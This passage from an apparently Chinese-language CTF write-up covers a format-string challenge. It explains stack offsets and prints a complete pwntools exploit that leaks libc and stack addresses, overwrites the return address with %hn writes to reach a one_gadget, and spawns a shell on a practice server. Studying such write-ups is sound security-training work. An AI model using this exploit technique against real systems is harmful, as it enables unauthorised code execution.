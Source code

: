 ![image.png](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041745564.png)

第三步：

```
payload = "%" + str(hign_retn) + "c%9$hn...."
```

![image.png](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041746620.png)

第四步：

```
payload = "%" + str(hign_onegadget) + "c%35$hn...."
```

![image.png](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041746369.png)

所以，我们需要知道的值为原来的返回地址(0x7ffff7a03bf7 (__libc_start_main+231))和该地址在栈中的地址(0x7fffffffdd98，即返回时rsp寄存器中的值)，后者可以通过动态调试和泄露**栈上**的地址算出偏移后得到，偏移为0xde78 - 0xdda8 = 0xe0

exp如下：

```
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn', 28365)
#p = process('./pwn')
e = ELF('./pwn')
libc = ELF('./libc-2.27.so')
payload1 = '%7$p%9$p'
p.send(payload1)
__libc_start_main_231 = int(p.recv(14), 16)
libc_base_addr = __libc_start_main_231 - 231 - libc.symbols['__libc_start_main']
leak_stack_addr = int(p.recv(14), 16)
ret_esp = leak_stack_addr - 0xe0
one_gadget = [0x4f2c5, 0x4f322, 0x10a38c]
onegadget_addr = libc_base_addr + one_gadget[0]
retaddr_low2addr = ret_esp & 0xffff
retaddr_high2addr = (ret_esp + 2) & 0xffff #retaddr_low2addr + 4
onegadget_addr_low_2_bytes = onegadget_addr & 0xffff
onegadget_addr_high_2_bytes = (onegadget_addr >> 16) & 0xffff
print("ret_esp:" + hex(ret_esp))
print("retaddr_low2addr:" + hex(retaddr_low2addr))
print("retaddr_high2addr:" + hex(retaddr_high2addr))
print("one_gadget_addr:" + hex(onegadget_addr))
print("one_gadget_addr_low_2_bytes:" + hex(onegadget_addr_low_2_bytes))
print("one_gadget_addr_high_2_bytes:" + hex(onegadget_addr_high_2_bytes))

payload2 = '%' + str(retaddr_low2addr) + 'c%9$hn....'
p.sendline(payload2)

payload3 = '%' + str(onegadget_addr_low_2_bytes) + 'c%35$hn....'
p.sendlineafter("....", payload3)

payload4 = '%' + str(retaddr_high2addr) + 'c%9$hn....'
p.sendlineafter("....", payload4)

payload5 = '%' + str(onegadget_addr_high_2_bytes) + 'c%35$hn....'
p.sendlineafter("....", payload5)

p.sendlineafter("....", "66666666\x00")
p.interactive()
```
